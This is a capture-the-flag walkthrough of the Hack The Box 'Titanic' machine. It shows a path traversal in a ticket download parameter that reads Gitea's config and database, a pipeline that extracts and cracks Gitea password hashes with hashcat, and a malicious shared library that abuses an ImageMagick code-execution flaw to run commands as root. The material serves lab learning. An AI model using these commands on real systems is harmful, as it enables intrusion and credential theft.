








# Nmap Scan

```bash
sudo nmap -sC -sV -T4 10.10.11.55
```


While exploring the website, I found a Book Your Trip button that triggers a form submission.


after filing the form and intercept the request with burpsuite, following the redirection

i find /download?ticket= path i tried path traversal and it worked

there is user names developer we can get the user flag from `/home/developer/user.txt`



we continue to see if we can access `/etc/hosts` i found subdomain `dev`



add it to my hosts

the app is using gitea so searching for its configuration i found this path

```bash
curl -X GET "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
```



we can see the db is located at `/data/gitea/gitea.db`

after downloading the db we can access it with 
```bash
sqlite3 _home_developer_gitea_data_gitea_gitea.db
```



from `htb-compiled` writeup i found how to crack the hash

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```

i found the developer password



time for ssh

```bash
ssh developer@10.10.11.55
```

looking around i found this :


the script is runing as root, and whit the version i took look at google i found this PoC

[Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

now we can try get the flag :

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root44_flag.txt");
    exit(0);
}
EOF

touch test.jpg
```

we can find the flag at `/tmp`


